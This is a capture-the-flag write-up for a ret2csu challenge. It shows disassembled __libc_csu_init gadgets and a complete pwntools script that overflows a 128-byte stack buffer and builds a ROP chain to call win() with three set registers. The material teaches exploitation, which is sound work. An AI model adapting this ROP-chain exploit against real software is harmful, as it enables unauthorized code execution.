

Reference: https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
<br>
64 bit binary:
<br>

<br>
Ghidra jump to win() with 3 arguments to display flag.txt
<br>


<br>
rdi = `0xdeadbeef`, rsi =`0xcafebabecafebabe`, rdx = `0xd00df00dd00df00d`
<br>

<br>
Finding gadgets:
<br>


<br>
There is no `pop rdx` so lets try and find something that can change rdx.
<br>

<br>
This is in AT&T syntax hence, we can move r15 to rdx as well as move r14 to rsi, r13d to edi before calling (r12+rbx+8), then add 1 to rbx, rbx must = rbp before we return
<br>

<br>
Gadget 1:
```
  4012a8:       4c 89 fa                mov    %r15,%rdx
  4012ab:       4c 89 f6                mov    %r14,%rsi
  4012ae:       44 89 ef                mov    %r13d,%edi
  4012b1:       41 ff 14 dc             callq  *(%r12,%rbx,8)
```
Gadget 2:
```
  4012c2:       5b                      pop    %rbx
  4012c3:       5d                      pop    %rbp
  4012c4:       41 5c                   pop    %r12
  4012c6:       41 5d                   pop    %r13
  4012c8:       41 5e                   pop    %r14
  4012ca:       41 5f                   pop    %r15
  4012cc:       c3                      retq  
```
For the function we are calling we will call `_init`. The reason why I call this function instead of other function, is this one doesn't crash when I call it in this context. Let's find a pointer to it's address.` callq  *(%r12,%rbx,8)`
<br>


<br>
Building our payload:
```
from pwn import *

args = process("./args")
gadget1 = p64(0x4012a8)
gadget2 = p64(0x4012c2)
_init = p64(0x403e28)
win = p64(0x4011b2)
arg1 = p64(0x90909090deadbeef) #r13d to edi
arg2 = p64(0xcafebabecafebabe)
arg3 = p64(0xd00df00dd00df00d)

payload = "\x90" * 136 # vuln [128] + overwrite rsp
payload += gadget2
#cmp %rbx,%rbp
payload += p64(0) # set rbx to 0(+1)
payload += p64(1) # set rbp to 1 
payload += _init
payload += arg1
payload += arg2
payload += arg3
payload += gadget1
payload += p64(0) * 7 #rsp+8,rbx,rbp,r12,r13,r14,15
payload += win
#with open("./out.txt", "wb") as out:
# out.write(payload)
args.sendline(payload)
print(args.recv())
```
